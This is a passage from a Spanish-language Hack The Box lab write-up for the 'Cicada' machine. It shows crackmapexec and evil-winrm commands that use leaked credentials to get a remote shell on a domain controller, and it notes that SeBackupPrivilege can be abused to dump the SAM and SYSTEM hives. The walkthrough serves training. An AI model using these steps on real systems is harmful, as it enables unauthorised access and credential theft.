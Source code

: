 Al examinar el contenido del script, descubro que establece las credenciales para el usuario `emily.oscars`:`Q!3@Lp#M6b*7t*Vt`.`

---

Revisó si este usuario puede conectarse a la máquina víctima a través del servicio WinRM.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ crackmapexec winrm 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

Las credenciales son correctas y puedo ejecutar comandos remotamente mediante WinRM.

Una vez conectado, accedo al archivo que contiene la flag.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> type Desktop\user.txt
```

---
## Privilege Escalation

Verificó los privilegios asignados a la cuenta de `Emily`.

```terminal
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv
```

![](assets/img/htb-writeup-cicada/cicada6_1.png)

El resultado muestra que tengo habilitado el privilegio SeBackupPrivilege. Este privilegio permite leer archivos y directorios sin restricciones, lo que incluye la capacidad de copiar archivos críticos del sistema, como los archivos SAM y SYSTEM que contienen credenciales y otros datos sensibles.
